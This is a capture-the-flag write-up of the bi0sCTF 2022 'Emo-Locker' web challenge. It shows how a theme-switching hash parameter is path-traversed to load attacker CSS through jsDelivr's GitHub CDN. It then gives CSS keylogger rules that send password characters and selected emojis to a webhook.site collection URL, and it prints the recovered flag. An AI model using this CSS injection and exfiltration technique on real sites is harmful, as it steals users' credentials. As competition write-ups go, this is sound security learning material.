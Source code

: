 # bi0sCTF 2022

URL: https://ctf.bi0s.in/

Team: Kalmarunionen

Place: 7 (of 294)

## Emo-Locker

> All new emoji-based authentication service. See if you can get the admin's emojis. 🥷

In `index.js` we see this change theme logic:

```jsx
class Main extends React.Component {
    constructor(props) {
        super(props);

        let link_obj = document.createElement("link");
        link_obj.rel = "stylesheet"
        this.state = {
            link_obj: link_obj
        };

        this.switchTheme = this.switchTheme.bind(this);
    }

    componentDidMount() {
        document.head.appendChild(this.state.link_obj);
        window.addEventListener("hashchange", this.switchTheme, false);
    }

    switchTheme() {
        this.setState((prevState) => {
            let href = `https://cdn.jsdelivr.net/npm/darkmode-css@1.0.1/${window.location.hash.replace("#", '')}-mode.css`;
            prevState.link_obj.href = href;
            return {}
        });
    }

	// ...
}
```

So we can load `http://web.chall.bi0s.in:10101/#dark` to get dark-mode.

But jsDelivr has a great feature for bypassing CSP/etc, which is the _CDN-for-any-GitHub_-feature:

> jsDelivr CDN service’s base URL is `https://cdn.jsdelivr.net/gh/{username}/{repo}/`, where you replace `{username}` with the GitHub username and `{repo}` with the repository name for the project.

So if I create repo 'hax' under my GitHub profile and add a file called 'a-mode.css', it can be loaded using: `http://web.chall.bi0s.in:10101/#../../gh/NicolaiSoeborg/hax/a`

I.e. `https://cdn.jsdelivr.net/npm/darkmode-css@1.0.1/../../gh/NicolaiSoeborg/hax/a-mode.css`

### CSS-based Keylogger

Normally one would do:

```css
input[type="password"][value$="bi0sctf{a"] {
  background-image: url("http://webhook.site/callback?data=a");
}
input[type="password"][value$="bi0sctf{b"] {
  background-image: url("http://webhook.site/callback?data=b");
}
input[type="password"][value$="bi0sctf{c"] {
  background-image: url("http://webhook.site/callback?data=c");
}
/* ... */
```

But in this case the password input field is replaced with `*` and the secret emoji sequence is stored in a local state.
When an emoji is selected, the corresponding HTML element is cleared so the emoji can only be picked once. We can use the CSS selector `:empty` to find these elements, i.e. `span[role="img"][aria-label="1"]` is the first emoji and `span[role="img"][aria-label="1"]:empty` is the selector for when the emoji is picked.

Using this we change the `a-mode.css` file to:

```css
span[role="img"][aria-label="1"]:empty { background-image: url("https://webhook.site/cb…61?data=1"); }
span[role="img"][aria-label="2"]:empty { background-image: url("https://webhook.site/cb…61?data=2"); }
span[role="img"][aria-label="3"]:empty { background-image: url("https://webhook.site/cb…61?data=3"); }
span[role="img"][aria-label="4"]:empty { background-image: url("https://webhook.site/cb…61?data=4"); }
span[role="img"][aria-label="5"]:empty { background-image: url("https://webhook.site/cb…61?data=5"); }
span[role="img"][aria-label="6"]:empty { background-image: url("https://webhook.site/cb…61?data=6"); }
span[role="img"][aria-label="7"]:empty { background-image: url("https://webhook.site/cb…61?data=7"); }
/* ... */
```

And watch the requests coming in whenever an emoji is selected.
The secret sequence is "51,32,73,34,85,126,17,158,79,50" (😔 🫢 😕🤫😧🙊🤩💬😯😌) which we can use to login ourself and get the flag: `bi0sctf{a34522e2009192570c840f931e4c3c0a}`
